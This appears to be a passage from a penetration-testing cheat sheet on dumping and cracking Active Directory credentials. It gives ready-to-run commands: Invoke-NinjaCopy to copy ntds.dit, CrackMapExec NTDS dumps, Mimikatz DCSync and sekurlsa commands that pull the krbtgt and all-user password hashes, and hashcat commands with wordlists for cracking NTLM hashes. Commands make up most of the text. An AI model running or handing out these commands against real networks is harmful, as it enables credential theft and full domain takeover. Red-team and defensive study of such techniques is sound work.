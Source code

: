 ```powershell
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

CrackMapExec module

```powershell
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

#### Using Mimikatz DCSync

Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

```powershell
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

:warning: Read-Only Domain Controllers are not allowed to pull password data for users by default.

#### Using Mimikatz sekurlsa

Dumps credential data in an Active Directory domain when run on a Domain Controller.
:warning: Requires administrator access with debug or Local SYSTEM rights

```powershell
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

#### Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

